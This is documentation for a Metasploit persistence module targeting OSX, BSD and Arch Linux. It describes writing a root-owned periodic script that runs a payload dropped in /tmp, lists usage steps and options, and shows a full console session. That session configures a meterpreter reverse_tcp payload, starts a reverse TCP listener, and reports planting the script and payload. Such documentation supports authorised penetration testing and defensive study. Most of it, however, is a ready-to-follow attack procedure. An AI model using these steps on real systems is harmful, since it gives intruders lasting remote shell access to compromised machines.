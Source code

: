 ## Description

This module provides a persistence mechanism on OSX, BSD and Arch Linux 
using periodic scripts. The modules will write a script to `/etc/periodic
/daily/`, `/etc/periodic/weekly/` or `/etc/periodic/monthly/`. This 
script will then execute a payload which is written by default to `/tmp/`.

## Verification Steps

1. Obtain a session with super user privilleges, only the root 
user has write permissions to `/etc/periodic/`
2. Do: `use exploit/multi/local/periodic_script_persistence`
3. Do: `set session #`
4. Do: `set target #`
5. Do: `set payload #`
6. Do: `set verbose true`
7. Do: `expoit`

## Options

**PERIODIC_DIR**

Periodic Directory to write script eg. /etc/periodic/daily

**PERIODIC_SCRIPT_NAME**

Name of periodic script

**PAYLOAD_DIR**

Directory to write payload to

**PAYLOAD_FILENAME**

Name of the payload file

## Scenarios
```
msf6 exploit(multi/handler) > use exploit/osx/local/periodic_script_persistence 
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/local/periodic_script_persistence) > set target 2
target => 2
msf6 exploit(osx/local/periodic_script_persistence) > set session 1
session => 1
msf6 exploit(osx/local/periodic_script_persistence) > set lport 6666
lport => 6666
msf6 exploit(osx/local/periodic_script_persistence) > set payload osx/aarch64/meterpreter_reverse_tcp
payload => osx/aarch64/meterpreter_reverse_tcp
msf6 exploit(osx/local/periodic_script_persistence) > run

[*] Started reverse TCP handler on 192.168.0.239:6666 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] /etc/periodic is writable
[+] The target is vulnerable.
[+] Writing payload to /tmp/q0Y1M6djZ suceeded
[*] Succesfully wrote periodic script to /etc/periodic/daily/JPk5z2s. This will execute /tmp/q0Y1M6djZ
Cleanup script:

sudo rm /tmp/q0Y1M6djZ /etc/periodic/daily/JPk5z2s

```